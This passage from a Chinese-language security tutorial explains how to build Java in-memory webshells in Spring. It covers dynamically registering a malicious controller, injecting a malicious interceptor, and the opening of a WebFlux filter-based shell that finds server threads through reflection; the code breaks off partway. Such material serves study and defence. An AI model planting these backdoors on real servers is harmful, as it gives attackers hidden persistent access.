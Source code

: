 这段代码先利用`RequestContextHolder`获取当前请求的`WebApplicationContext`，这个`RequestContextHolder`是`Spring`框架提供的用于存储和访问请求相关信息的工具类；接着从上一步中获取到的`WebApplicationContext`中获取`RequestMappingHandlerMapping Bean`；接着通过反射获得我们自定义`Controller`的恶意方法的`Method`对象，然后就是拿到对应的`RequestMappingInfo`对象；通过`bean`实例 + 处理请求的`method`+对应的`RequestMappinginfo`对象即可调用`registerMapping`方法动态添加恶意`controller`。

## 4.2 Spring Interceptor 型内存马

由`2.11.2.3`节的分析我们很容易得出`Spring Interceptor`型内存马的编写思路：

-   获取`ApplicationContext`
-   通过`AbstractHandlerMapping`反射来获取`adaptedInterceptors`
-   将要注入的恶意拦截器放入到`adaptedInterceptors`中

具体代码我会放到针对实际中间件打内存马那里。

## 4.3 Spring WebFlux 内存马

### 4.3.1 简单的 Spring WebFlux 内存马 demo 编写

由`2.12.5`节的分析我们可以写出下面的代码：

```bash
package org.example.webfluxmemoryshelldemo.memoryshell;

import org.springframework.boot.web.embedded.netty.NettyWebServer;
import org.springframework.context.annotation.Configuration;
import org.springframework.core.io.buffer.DataBuffer;
import org.springframework.core.io.buffer.DefaultDataBufferFactory;
import org.springframework.http.MediaType;
import org.springframework.http.server.reactive.ReactorHttpHandlerAdapter;
import org.springframework.http.server.reactive.ServerHttpRequest;
import org.springframework.http.server.reactive.ServerHttpResponse;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import org.springframework.web.server.WebHandler;
import org.springframework.web.server.adapter.HttpWebHandlerAdapter;
import org.springframework.web.server.handler.DefaultWebFilterChain;
import org.springframework.web.server.handler.ExceptionHandlingWebHandler;
import org.springframework.web.server.handler.FilteringWebHandler;
import reactor.core.publisher.Flux;
import reactor.core.publisher.Mono;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.lang.reflect.Modifier;
import java.nio.charset.StandardCharsets;
import java.util.ArrayList;
import java.util.List;

@Configuration
public class MemoryShellFilter implements WebFilter{

    public static void doInject() {
        Method getThreads;
        try {
            getThreads = Thread.class.getDeclaredMethod("getThreads");
            getThreads.setAccessible(true);
            Object threads = getThreads.invoke(null);
            for (int i = 0; i < Array.getLength(threads); i++) {
                Object thread = Array.get(threads, i);
```